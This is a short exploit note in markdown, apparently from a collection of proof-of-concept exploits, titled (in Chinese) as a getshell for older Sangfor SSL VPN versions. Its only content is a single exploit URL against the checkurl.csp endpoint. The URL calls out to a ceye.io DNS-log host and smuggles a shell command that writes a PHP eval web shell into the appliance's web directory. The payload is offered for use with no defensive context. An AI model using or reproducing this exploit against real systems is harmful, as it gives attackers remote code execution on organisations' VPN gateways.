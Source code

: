 # 深信服 SSL VPN 低版本Getshell.md



## EXP

```
https://x.x.x.x/por/checkurl.csp?url=http://123.j8qw5x.ceye.io/%20;echo "<?php;eval(\$_POST['a']);" > /usr/local/apache2/htdocs/com/svpnrcico/360.sin;&timeout=2&retry=3
```

